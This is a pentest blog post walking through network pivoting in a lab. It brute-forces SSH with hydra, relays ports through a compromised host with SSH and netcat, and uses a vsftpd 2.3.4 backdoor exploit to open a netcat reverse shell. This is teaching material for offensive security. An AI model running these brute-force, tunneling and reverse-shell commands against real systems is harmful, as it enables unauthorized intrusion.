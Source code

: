 ```yaml
---
title:  "Pivoting - part 1. Practical example"
date:   2021-11-04 10:00:00 +0600
header:
  teaser: "/assets/images/19/2021-11-05_02-02.png"
categories: 
  - pentest
tags:
  - pivoting
  - red team
  - networking
  - pentest
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!           

![pivoting 1](/assets/images/19/2021-11-05_02-02.png){:class="img-responsive"}         

This article will consider scenarios for attacking protected segments of a corporate network using pivoting techniques. I will focus on a practical example.        

### Pivoting

Pivoting is a technique by which access is organized to those networks to which we do not have access under normal circumstances and obtained using compromised computers. Network isolation will be useless if we compromise a host that has access to all isolated subnets. Thus, an attacker can use the routing capabilities of a compromised machine to access internal corporate resources.            

I will show with an example how an attacker can gain access to a "hidden" network without having direct access to it in the early stages of penetration testing using pivot techniques.       

### Scenario

Let's consider at this network topology:       

![pivoting 1](/assets/images/19/pivot-topology.png){:class="img-responsive"}         

### enum and compromise machine A

Firstly, scan ports:          
```bash
nmap -Pn -sV 10.9.1.11
```

![machine A 1](/assets/images/19/2021-05-31_11-56.png){:class="img-responsive"}         

As you can see SSH port `22` is open.     

Let's go to brute via `hydra`:        
```bash
hydra -f -v -V -l root -P rockyou-15.txt -s 22 ssh://10.9.1.11 -t 2
```

![machine A 2](/assets/images/19/2021-05-31_12-26.png){:class="img-responsive"}         

### ssh port forward

Check network interfaces on machine `A`:        
```bash
ifconfig
```

![machine A 3](/assets/images/19/2021-05-31_11-59.png){:class="img-responsive"}         

As you can see we discover another network `7.7.1.0/24`.

Further, according to the scenario, the attacker wants to gain access to the subnet behind the `7.7.7.0/24` interface. To do this, he needs to use a compromised host as a pivot.     

In a compromised host, we cannot use `nmap` for port scanning, so use `netcat`:      
```bash
nc -zv -w1 7.7.1.5 1-100
```

![machine A 4](/assets/images/19/2021-05-31_13-03.png){:class="img-responsive"}         

then banner grabbling via netcat:
```bash
nc 7.7.1.5 21
```

![machine A 5](/assets/images/19/2021-05-31_13-09.png){:class="img-responsive"}         

We found a vulnerable `21` port:     

[https://www.exploit-db.com/exploits/49757](https://www.exploit-db.com/exploits/49757)

for exploitation `7.7.1.5` we use ssh tunnel:             

```bash
ssh -L 10.9.1.6:8021:7.7.1.5:21 -L 10.9.1.6:6200:7.7.1.5:6200 root@10.9.1.11
```

![machine A 6](/assets/images/19/2021-05-31_11-57.png){:class="img-responsive"}         

So what we do in here? We forwarded ports from attacker's machine to victim machine `B` via compromised machine `A` - `10.9.1.11`:      

![SSH tunnel](/assets/images/19/tunnel.png){:class="img-responsive"}         

Why `6200` port? Because, backdoor use this port.        


### exploit and access machine B

For exploitation machine `B` with address `7.7.1.5`, we'll download python exploit for `vsftpd 2.3.4` backdoor:             
[https://github.com/ahervias77/vsftpd-2.3.4-exploit/blob/master/vsftpd_234_exploit.py](https://github.com/ahervias77/vsftpd-2.3.4-exploit/blob/master/vsftpd_234_exploit.py)           

Download and run:
```bash
python3 vsftpd_234_exploit.py 10.9.1.6 8021 whoami
```

![machine B 1](/assets/images/19/2021-05-31_12-00.png){:class="img-responsive"}         

It's ok, but we cannot start the reverse shell because we do not have a reverse route.     

create back port forwarding for our reverse shell.

on machine `A` run:
```bash
nc -l -p 3333 -c "nc 10.9.1.6 3333"
```

![machine B 2](/assets/images/19/2021-05-31_11-59_1.png){:class="img-responsive"}         

and prepare listener on attacker machine:
```bash
nc -nlvp 3333
```

![machine B 3](/assets/images/19/2021-05-31_12-01_1.png){:class="img-responsive"}         

So what we do in here? Port forwarding is one of the basic steps during tunneling. This technique is used when the service within the detected network is not directly accessible. This is because our routing is unidirectional. We know how to access the internal service, but the service does not have an appropriate route to the attacker's machine. Therefore, we will redirect the all incoming connections to `3333` port from machine `A` to attacker's machine (on `3333` port):    

![netcat forward](/assets/images/19/netcat_fwd.png){:class="img-responsive"}         


on attacker machine run exploit with netcat reverse shell:
```bash
python3 vsftpd_234_exploit.py 10.9.1.6 8021 "nc -e /bin/bash 7.7.1.9 3333"
```

![machine B 4](/assets/images/19/2021-05-31_12-01.png){:class="img-responsive"}         

![rev](/assets/images/19/rev.png){:class="img-responsive"}         


check our listener:         

![machine B 5](/assets/images/19/2021-05-31_12-01_2.png){:class="img-responsive"}         

![machine B 6](/assets/images/19/2021-05-31_12-02.png){:class="img-responsive"}         

**So, the machine B has been pnwed :)**

### conclusion

The attacker discovered secret network by following the steps below:              

- attacker got an access to the `machine A (10.9.1.11)`  which was on same network with attacker via brute `SSH` via `hydra`              
- then he realise that `machine A` has 2 network interfaces           
- scan ports on `machine B` via `nc` from `machine A`                
- then attacker banner grabbling on port `21` on `machine B` with IP address `7.7.1.5`         
- `machine B` have vulnerable `vsftpd 2.3.4` on port `21`              
- reverse port forward via `nc` on `A` for back connect from `B` to attacker machine    
- successfully exploitation of `vsftpd 2.3.4` via python exploit - create reverse shell via `3333` port    
- final    

In the next part I will go to consider an example which use `proxychains` and `metasploit` for pivoting.          

> This is a practical case for educational purposes only.      

Thanks for your time, happy hacking and good bye!    
*PS. All drawings and screenshots are mine*             